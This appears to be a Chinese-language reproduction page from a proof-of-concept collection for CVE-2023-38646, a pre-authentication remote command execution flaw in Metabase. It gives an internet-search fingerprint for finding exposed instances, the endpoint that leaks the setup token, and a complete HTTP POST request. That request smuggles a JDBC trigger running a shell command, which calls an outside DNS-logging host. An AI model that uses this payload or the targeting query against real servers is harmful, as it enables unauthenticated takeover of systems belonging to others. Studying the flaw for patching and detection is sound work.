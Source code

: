 # Metabase validate 远程命令执行漏洞 CVE-2023-38646

# Metabase validate 远程命令执行漏洞 CVE-2023-38646

## 漏洞描述

Metabase是一个开源的数据分析和可视化工具，它可以帮助用户轻松地连接到各种数据源，包括数据库、云服务和API，然后使用直观的界面进行数据查询、分析和可视化。未经身份认证的远程攻击者利用该漏洞可以在服务器上以运行 Metabase 服务器的权限执行任意命令

## 漏洞影响

Metabase

## 网络测绘

```
app="Metabase"
```

## 漏洞复现

登录页面

![image-20230828144918325](images/image-20230828144918325.png)

验证POC

```
/api/session/properties
```

![image-20230828144932056](images/image-20230828144932056.png)

```
POST /api/setup/validate HTTP/1.1
Host: 
Content-Type: application/json
Content-Length: 812

{
    "token": "e56e2c0f-71bf-4e15-9879-d964f319be69",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('curl ecw14d.dnslog.cn')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```

![image-20230828144945859](images/image-20230828144945859.png)

